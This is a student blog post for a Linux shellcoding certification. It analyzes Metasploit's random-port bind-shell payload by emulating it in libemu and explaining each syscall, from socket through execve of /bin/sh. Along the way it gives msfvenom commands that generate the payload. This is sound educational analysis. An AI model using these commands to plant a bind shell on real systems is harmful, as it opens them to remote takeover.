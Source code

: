 ```yaml
---
layout: post
title: "Analyzing Metasploit linux/x86/shell_bind_tcp_random_port module using Libemu"
date: 2017-05-06 12:00:00
share: true
comments: true
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 5.2_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
  
In the second part of assignment 5 in SLAE, I'll be analyzing the `linux/x86/shell_bind_tcp_random_port` module using Libemu.  


## 1\. Setting payload parameters

  
First let's check the options for this module.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port --payload-options  
Options for payload/linux/x86/shell_bind_tcp_random_port:  
  
  
       Name: Linux Command Shell, Bind TCP Random Port Inline  
     Module: payload/linux/x86/shell_bind_tcp_random_port  
   Platform: Linux  
       Arch: x86  
Needs Admin: No  
 Total size: 57  
       Rank: Normal  
  
Provided by:  
    Geyslan G. Bem <geyslan@gmail.com>  
  
Description:  
  Listen for a connection in a random port and spawn a command shell.   
  Use nmap to discover the open port: 'nmap -sS target -p-'.  
```    

  
I skipped over the advanced settings as they won't be discussed in this post. Lucky for us, this payload doesn't require any options as it will bind to the local IP and choose a port randomly (you'll use nmap to find that port).  
  
---


## 2\. Analyzing payload with libemu

After you install `libemu` (you might need to install a few packages like `autoconf` and `libtool`) let's pipe the raw output to ScTest (Iterate 1000 times with verbose output).

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000  
verbose = 3  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 57 bytes  
```

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 14;  
) =  14;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 13;  
) =  13;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 12;  
) =  12;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 11;  
) =  11;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 10;  
) =  10;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 9;  
) =  9;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 8;  
) =  8;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 7;  
) =  7;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 6;  
) =  6;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 5;  
) =  5;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 4;  
) =  4;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 3;  
) =  3;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 2;  
) =  2;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 1;  
) =  1;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 0;  
) =  0;  
int execve (  
     const char * dateiname = 0x00416fb6 =>   
           = "/bin//sh";  
     const char * argv[] = [  
           = 0xffffffff =>   
             none;  
     ];  
     const char * envp[] = 0x00000000 =>   
         none;  
) =  0;  
```    

  
Lots of debug info, but let's focus on the syscalls being made. To make it easier, sctest allows us to create a visual representation of the flow.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000 -G tcp_random_port.dot  
  
.. redacted..  
  
root@kali:~/Desktop/libemu/tools/sctest# ls  
dot.c        Makefile.in  sctest          sctest-sctestmain.o  tests.c  
dot.h        nanny.c      sctest-dot.o    sctest-tests.o       tests.h  
Makefile     nanny.h      sctestmain.c    sctest-userhooks.o   userhooks.c  
Makefile.am  options.h    sctest-nanny.o  tcp_random_port.dot  userhooks.h  
root@kali:~/Desktop/libemu/tools/sctest# dot tcp_random_port.dot -T png > tcp_random_port.png  
```    

[![](http://i.imgur.com/MH3L6qb.png)](http://i.imgur.com/MH3L6qb.png)

---

#### 1\. `socket()`

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
```    

Same call we made for both bind and reverse shell previously, creating a socket that supports TCP communication, sockfd returned is 14.

#### 2\. `listen()`

```
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
```

Next, it starts a listener for incoming connections on sockfd. Note: `bind()` is not required and a random port is picked. Instead you'll need to scan the host for open ports. More info here: http://stackoverflow.com/questions/12763268/why-is-bind-used-in-tcp-why-is-it-used-only-on-server-side-and-not-in-client  

---

#### 3\. `accept()`

```cpp
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
```

When there's an incoming connection on the socket created earlier, accept it without storing the client data `sockaddr_in`. New sockfd is 19.  

---

#### 4\. `dup2()`

Next, the traffic is redirected to the newly created socket (19) by calling `dup2()`, which will duplicate the STDIN,STDOUT and STDERR to the socket. Notice that there's a loop using ECX as an index, ECX's value is pulled from the latest value pushed onto stack.  
  
After `accept()`, there's a `POP ECX` command, which will now contain the value last pushed into stack. If you scroll up you'll find that it was a `PUSH EAX`.
EAX contains `sockfd` returned from `socket()`. This allows us to use a small number without worrying too much about looping too much.  
  
Of course, this logic any error check, but you don't have that luxury while shellcoding.  

---

#### 5\. `execve()`

  
This part is simple, it's simply calls a `/bin/sh` shell.  
  
\- Abatchy

